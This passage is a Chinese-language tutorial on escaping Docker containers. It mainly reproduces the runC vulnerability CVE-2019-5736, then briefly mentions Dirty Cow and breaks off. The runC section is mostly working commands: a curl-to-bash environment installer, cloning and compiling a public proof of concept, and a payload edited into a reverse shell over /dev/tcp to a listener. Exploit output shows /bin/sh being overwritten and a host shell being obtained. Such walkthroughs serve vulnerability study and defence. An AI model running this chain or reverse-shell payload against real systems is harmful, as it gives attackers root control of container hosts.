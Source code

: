 #### [](#341-cve-2019-5736)3.4.1 CVE-2019-5736

CVE-2019-5736 是 runC 的 CVE 漏洞编号，runC 最初是作为 Docker 的一部分开发的，后来作为一个单独的开源工具和库被提取出来，在 docker 整个架构的运行过程中，Containerd 向 docker 提供运行容器的 API，二者通过 grpc 进行交互。containerd 最后通过 runc 来实际运行容器。

**影响版本**

-   docker version <=18.09.2
-   RunC version <=1.0-rc6

**利用条件：**

攻击者可控 image，进一步控制生成的 container

攻击者具有某已存在容器的写权限，且可通过 docker exec 进入

**漏洞复现：**

1.  测试环境镜像下载安装

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh<br>``` |

2.  下载 POC，修改脚本，编译

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```bash<br># 下载 poc<br>git clone https://github.com/Frichetten/CVE-2019-5736-PoC<br><br># 修改Payload<br>vi main.go<br>payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.19.0.1/4444 0>&1"<br><br># 编译生成 payload<br>CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go<br><br># 拷贝到 docker 容器中执行<br>docker cp ./main 248f8b7d3c45:/tmp<br>``` |

3.  在容器中执行 payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>root@d1b112ea4a5e:/tmp# ./main<br>[+] Overwritten /bin/sh successfully<br>[+] Found the PID: 16<br>[+] Successfully got the file handle<br>[+] Successfully got write handle &{0xc8201231e0}<br>``` |

4.  假设，管理员通过 exec 进入容器，从而触发 Payload。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker exec -it  cafa20cfb0f9 /bin/sh<br>``` |

在 172.19.0.1 上监听本地端口，成功获取宿主机反弹回来的 shell。

#### [](#342-cve-2019-14271)3.4.2 CVE-2019-14271

[https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

### [](#35-%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E)3.5 内核漏洞

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，通过它可实现 Docker 容器逃逸，获得 root 权限的 shell。

环境准备：

docker 与宿主机共享内核，因此我们需要存在 dirtyCow 漏洞的宿主机镜像。

添加容器下载并运行：

